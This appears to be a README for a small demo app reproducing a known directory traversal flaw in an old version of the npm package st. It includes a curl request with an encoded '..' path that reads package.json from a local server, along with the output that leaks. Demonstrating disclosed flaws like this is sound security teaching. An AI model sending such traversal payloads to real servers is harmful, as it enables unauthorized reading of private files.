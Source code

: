 # vulnst
![CI](https://github.com/kg0r0/vulnst/workflows/CI/badge.svg)  
Directory Traversal Demo of npm [st](https://www.npmjs.com/package/st).

## Usage

```
$ npm install
$ npm start
$ curl http://localhost:3000/public/%2e%2e/package.json
{
  "name": "stvuln",
  "version": "0.0.0",
  "private": true,
  "scripts": {
    "start": "node ./bin/www"
  },
  "dependencies": {
    "cookie-parser": "~1.4.4",
    "debug": "~2.6.9",
    "express": "~4.16.1",
    "http-errors": "~1.6.3",
    "morgan": "~1.9.1",
    "pug": "2.0.0-beta11",
    "st": "^0.2.4"
  }
}
```

## References
- https://snyk.io/vuln/npm:st:20140206

